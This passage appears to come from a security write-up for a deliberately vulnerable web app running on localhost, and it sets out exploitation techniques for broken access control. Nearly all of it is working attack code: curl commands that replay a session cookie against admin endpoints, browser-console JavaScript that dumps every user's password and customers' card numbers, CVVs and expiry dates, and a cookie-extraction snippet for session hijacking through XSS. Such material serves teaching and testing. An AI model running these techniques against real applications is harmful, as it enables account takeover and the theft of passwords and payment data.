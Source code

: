 ## 🧪 Exploitation Techniques

### Technique 1: Direct URL Manipulation
```bash
# Step 1: Capture session cookie after login
SESSION_COOKIE="connect.sid=s%3A..."

# Step 2: Access admin panel directly via URL
curl -H "Cookie: $SESSION_COOKIE" \
     http://localhost:3000/admin

# Step 3: Access admin APIs directly
curl -H "Cookie: $SESSION_COOKIE" \
     http://localhost:3000/api/admin/users

curl -H "Cookie: $SESSION_COOKIE" \
     http://localhost:3000/api/admin/bookings
```

### Technique 2: Browser Console Exploitation
```javascript
// Open browser console after login and execute:

// Access all user data including passwords
fetch('/api/admin/users', {credentials: 'include'})
  .then(r => r.json())
  .then(data => {
    console.log('All user passwords exposed:', data);
    data.forEach(user => {
      console.log(`${user.email}: ${user.password}`);
    });
  });

// Access all customer payment data
fetch('/api/admin/bookings', {credentials: 'include'})
  .then(r => r.json())
  .then(data => {
    console.log('Credit card data compromised:', data);
    data.forEach(booking => {
      console.log(`Card: ${booking.cardNumber}, CVV: ${booking.cardCvv}, Exp: ${booking.cardExpiry}`);
    });
  });
```

### Technique 3: Session Hijacking + Admin Access
```javascript
// 1. Extract session cookie (XSS scenario)
document.cookie.split(';').find(c => c.includes('connect.sid'));

// 2. Use stolen session to access admin panel
// Navigate to /admin with hijacked session
window.location.href = '/admin';
```
